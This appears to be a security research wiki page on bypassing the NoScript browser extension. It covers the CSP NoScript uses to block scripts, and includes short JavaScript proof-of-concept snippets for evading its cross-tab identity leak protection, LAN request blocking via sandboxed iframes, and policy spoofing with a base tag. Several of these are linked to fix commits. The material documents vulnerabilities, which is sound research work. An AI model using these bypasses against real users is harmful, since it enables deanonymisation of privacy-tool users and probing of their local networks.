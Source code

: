 ```yaml
---
title: NoScript
---
```


[NoScript](https://noscript.net/) is a security browser extension installed by default on the Tor Browser that reduces the attack surface of visited websites such as by per site disabling JavaScript and blocking requests to the local area network.
It also has cross-site protections such as checking the URL for reflected XSS and asking before opening cross-site popups to avoid timing attacks and other leaks via the opener (Firefox only).

Disabling JS works by setting the following [CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP):
```
noscript-marker; script-src 'none'; object-src 'none'; media-src 'none'; font-src 'none'; script-src-elem 'none'; script-src-attr 'none'; worker-src 'none'
```
So, in order to bypass it you need to find somewhere the CSP is not enforced like [this](https://issues.chromium.org/issues/40058593) or a PDF.

# Cross-tab Identity Leak Protection
Due to a flaw in cutting tab ties it did not think tabs where related when there was still a window reference.
```js
async function bypassFirefox(url) {
    let win = open('about:blank');
    await new Promise(resolve => setTimeout(resolve, 100));
    win.location.reload();
    await new Promise(resolve => setTimeout(resolve, 100));
    win.location = url;
    return win;
}
```
And later… [commit]( https://github.com/hackademix/noscript/commit/c22eafc35bfcc379e9323cae67c924dfa1830684)
```js
let w = open();
w.eval('console.log("some attack")');
location = target;
```
And later… (Requires two user interactions)
```js
w1 = open();
w2 = w1.open();
w1.close();
w2.location = target;
```
Like [COOP](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cross-Origin-Opener-Policy) this does not affect timing attacks on the first navigation.

# LAN Protection
[Sandboxed content](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe#attr-sandbox) uses the origin of ‘null’ which bypassed the protection.
```js
let f = document.createElement('iframe');
f.srcdoc = '<img src="http://192.168.1.1/foo">';
f.sandbox = 'allow-scripts';
document.body.appendChild(f);
```
This was also expanded to [top-level documents](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/sandbox).

# Policy spoofing
document.baseURI was used to determine the policy for about: and javascript: URLs this could be set to any origin using the html base tag.  [commit](https://github.com/hackademix/noscript/commit/ee66b823210933ba80dd38acf122b4bab6bd7be1)
```html
<base href="https://www.example.com/">
```
